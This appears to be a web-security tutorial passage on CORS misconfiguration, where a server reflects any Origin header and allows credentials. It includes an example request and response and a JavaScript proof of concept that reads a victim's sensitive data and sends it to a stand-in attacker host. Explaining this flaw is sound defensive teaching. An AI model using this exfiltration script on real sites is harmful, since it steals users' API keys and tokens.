 # Server-generated ACAO header from client-specified Origin header

Some applications need to provide access to a number of other domains. Maintaining a list of allowed domains requires ongoing effort, and any mistakes risk breaking functionality. **So some applications take the easy route of effectively allowing access from any other domain**.

One way to do this is by reading the Origin header from requests and including a response header stating that the requesting origin is allowed. For example, consider an application that receives the following request:

```
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```

It then responds with:

```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
```

These headers state that access is allowed from the requesting domain (malicious-website.com) and that the cross-origin requests can include cookies (Access-Control-Allow-Credentials: true) and so will be processed in-session.

Because the application reflects arbitrary origins in the Access-Control-Allow-Origin header, this means that **absolutely any domain can access resources from the vulnerable domain**.

If the response contains any sensitive information such as an API key or CSRF token, you could retrieve this by placing the following script on your website:

```
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
   location='//malicious-website.com/log?key='+this.responseText;
};
```
